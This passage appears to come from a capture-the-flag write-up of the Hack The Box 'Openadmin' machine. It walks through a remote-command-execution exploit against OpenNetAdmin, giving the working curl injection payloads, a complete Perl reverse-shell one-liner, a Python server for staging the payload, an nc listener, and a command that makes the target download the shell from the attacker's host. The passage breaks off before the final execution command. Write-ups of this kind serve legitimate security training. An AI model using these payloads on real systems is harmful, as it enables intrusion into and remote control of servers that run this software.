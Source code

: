Essentially, it loops infinitely as it takes in what you type at the command line and sends it to the vunerable URL to trigger the RCE. 

Together with some formatting magic, it returns only the response to the sent command. This way, it creates the impression of having a shell on the exploited machine.

(It includes BEGIN and END in the sent payload to act as markers, before using sed to grep and print what's between these two markers.)

### Verifying The Exploit

Let's run the curl command manually to see if the exploit works.

`curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";whoami;echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/`

Results:

```
<?xml version="1.0" encoding="utf-8" ?>
</SNIP>
<pre style="padding: 4px;font-family: monospace;">BEGIN
www-data
END
</pre>
<SNIP>
```

It responds to our `whoami` command, proving that the RCE works.

### Creating A Payload

Save the perl reverse shell payload below into a file `perlshell`.

```
use Socket;$i="10.10.X.X";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

Then, serve it up for download into Openadmin.

`python -m SimpleHTTPServer`

### Getting A Shell

Prepare to catch the reverse shell.

`nc -nvlp 8888`

Next, execute the two curl commands below in sequence. 

This first command will download the shell into Openadmin.

`curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";wget http://10.10.X.X:8000/perlshell;echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/`

This second command will execute the perl script, pushing a shell back to our nc handler.
